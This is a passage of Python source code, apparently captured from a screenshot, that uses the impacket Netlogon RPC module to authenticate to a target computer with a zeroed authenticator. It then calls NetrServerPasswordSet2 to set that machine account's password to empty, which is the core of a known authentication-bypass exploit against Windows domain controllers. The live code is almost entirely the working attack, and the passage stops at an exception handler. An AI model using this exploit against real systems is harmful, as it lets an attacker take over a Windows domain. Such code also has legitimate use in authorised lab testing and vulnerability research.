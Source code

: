 ```python3
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer+"$\x00", nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )

    
    # It worked!
    assert server_auth['ErrorCode'] == 0
    print()
    server_auth.dump()
    print("server challenge", serverChallenge)
    #sessionKey = nrpc.ComputeSessionKeyAES(None,b'\x00'*8, serverChallenge, unhexlify("c9a22836bc33154d0821568c3e18e7ff")) # that ntlm is just a randomly generated machine hash from a lab VM, it's not sensitive
    #print("session key", sessionKey)

    try:
      IV=b'\x00'*16
      #Crypt1 = AES.new(sessionKey, AES.MODE_CFB, IV)
      #serverCred = Crypt1.encrypt(serverChallenge)
      #print("server cred", serverCred)
      #clientCrypt = AES.new(sessionKey, AES.MODE_CFB, IV)
      #clientCred = clientCrypt.encrypt(b'\x00'*8)
      #print("client cred", clientCred)
      #timestamp_var = 10
      #clientStoredCred =  pack('<Q', unpack('<Q', b'\x00'*8)[0] + timestamp_var)
      #print("client stored cred", clientStoredCred)
      authenticator = nrpc.NETLOGON_AUTHENTICATOR()
      #authenticatorCrypt = AES.new(sessionKey, AES.MODE_CFB, IV)
      #authenticatorCred = authenticatorCrypt.encrypt(clientStoredCred);
      #print("authenticator cred", authenticatorCred)
      authenticator['Credential'] = ciphertext #authenticatorCred
      authenticator['Timestamp'] = b"\x00" * 4 #0 # timestamp_var
      #request = nrpc.NetrLogonGetCapabilities()
      #request['ServerName'] = '\x00'*20
      #request['ComputerName'] = target_computer + '\x00'
      #request['Authenticator'] = authenticator
      #request['ReturnAuthenticator']['Credential'] = b'\x00' * 8
      #request['ReturnAuthenticator']['Timestamp'] = 0 
      #request['QueryLevel'] = 1
      #resp = rpc_con.request(request)
      #resp.dump()
      
      request = nrpc.NetrServerPasswordSet2()
      request['PrimaryName'] = NULL
      request['AccountName'] = target_computer + '$\x00'
      request['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
      request['ComputerName'] = target_computer + '\x00'
      request["Authenticator"] = authenticator
      #request['ReturnAuthenticator']['Credential'] = b'\x00' * 8
      #request['ReturnAuthenticator']['Timestamp'] = 0
      request["ClearNewPassword"] = b"\x00"*516
      resp = rpc_con.request(request)
      resp.dump()

      #request['PrimaryName'] = NULL
      #request['ComputerName'] = target_computer + '\x00'
      #request['OpaqueBuffer'] = b'HOLABETOCOMOANDAS\x00'
      #request['OpaqueBufferSize'] = len(b'HOLABETOCOMOANDAS\x00')
      #resp = rpc_con.request(request)
      #resp.dump()      
    except Exception as e:
```